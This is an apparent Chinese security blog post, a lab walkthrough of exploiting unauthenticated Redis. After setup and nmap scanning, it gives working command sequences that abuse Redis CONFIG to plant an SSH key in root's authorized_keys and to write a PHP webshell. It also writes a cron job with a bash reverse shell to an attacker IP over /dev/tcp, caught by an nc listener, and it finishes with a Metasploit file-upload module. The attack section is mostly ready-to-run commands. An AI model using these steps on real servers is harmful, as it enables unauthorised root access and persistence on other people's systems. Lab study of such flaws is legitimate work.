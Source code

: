 ```yaml
---
layout: post
cover: 'assets/images/cover3.jpg'
title: Redis未授权访问
date:   2018-07-01
tags: web
subclass: 'post'
navigation: True
logo: 'assets/images/ghost.png'
---
```



### 0x00 环境搭建
---

#### (1)下载安装

```
cd /tmp
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
tar xzf redis-2.8.17.tar.gz
cd redis-2.8.17
make

cd src
./redis-server
```

#### (2)远程连接

Kali：

```
./redis-cli -h 192.168.111.135
```

Windows：

下载地址：

https://github.com/dmajkic/redis/downloads

```
.\redis-cli -h 192.168.111.135
```

#### (3)常用命令

查看所有键：

```
KEYS *
```

将变量x的值设为test：

```
set x "test"
```

获取默认的redis目录：

```
CONFIG GET dir
```

获取rdb文件名：

```
CONFIG GET dbfilename
```

### 0x01 漏洞概述
---

默认情况下，Redis会绑定在 0.0.0.0:6379，并且对公网开放，不需要密码认证

攻击者可以借此未授权访问Redis以及读取Redis的数据，利用Redis自身的提供的config命令可以进行写文件操作

具体有以下利用方式：

- 写入ssh公钥远程连接
- 写入计划任务反弹shell
- 写入webshell


### 0x02 漏洞扫描
---

#### 1、手工验证

```
.\redis-cli -h 192.168.111.135
```

输入`INFO server`，有回显，代表存在漏洞

#### 2、批量扫描

```
nmap -v -n -Pn -p 6379 -sV --scriptredis-info 192.168.111.1/24
```

redis-info为nmap专用于检查该漏洞的插件，kali下默认包含

### 0x03 漏洞利用
---

#### (1)写入ssh公钥远程连接

利用条件：

- redis服务使用root账号启动
- redis服务无密码认证或者使用的是弱口令进行认证
- 服务器开放了ssh服务，而且允许使用密钥登录

在本地生成公私钥文件：

```
ssh-keygen –t rsa
```

生成公钥文件：`~/.ssh/id_rsa.pub`

生成私钥文件：`~/.ssh/id_rsa`

将公钥写入 foo.txt 文件:

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

连接redis写入文件:

```
cat foo.txt | redis-cli -h 192.168.111.135 -x set crackit
redis-cli -h 192.168.111.135
config set dir /root/.ssh/
config set dbfilename "authorized_keys"
save
```

通过ssh远程连接：

```
ssh –i  id_rsa root@192.168.111.135
```

####  (2)写入计划任务反弹shell

使用telnet远程登录redis

```
telnet 192.168.111.135 6379
```

添加计划任务：

```
config set dir /var/spool/cron/
set -.- "\n\n\n* * * * * bash -i &gt;& /dev/tcp/192.168.236.129/9999 0&gt;&1\n\n\n"
```

本地执行nc监听端口：

```
nc -v -l -p 9999
```

#### (3)写入webshell

利用条件：

- redis服务无密码认证或者使用的是弱口令进行认证
- 支持web并且知道路径


在路径/home/wwwroot/default/写入webshell redis.php：

```
config set dir /home/wwwroot/default/
config set dbfilename redis.php
set webshell "<?php phpinfo(); ?>"
save
```


#### 补充1：如果通过set写入失败

先查看当前有哪些键：

```
KEYS *
```

查看某个键：

```
GET "phptest"
```

删除某个键：

```
DEL "phptest"
```

删除其他影响写入信息的键，并且需要关闭压缩功能：

```
CONFIG SETrdbcompression no
```

#### 补充2：利用msf

```
use auxiliary/scanner/redis/file_upload
set DISABLE_RDBCOMPRESSION yes
setRHOSTS 192.168.111.135
setRemoteFile /tmp/webshell
setLocalFile /home/test.txt
run
```


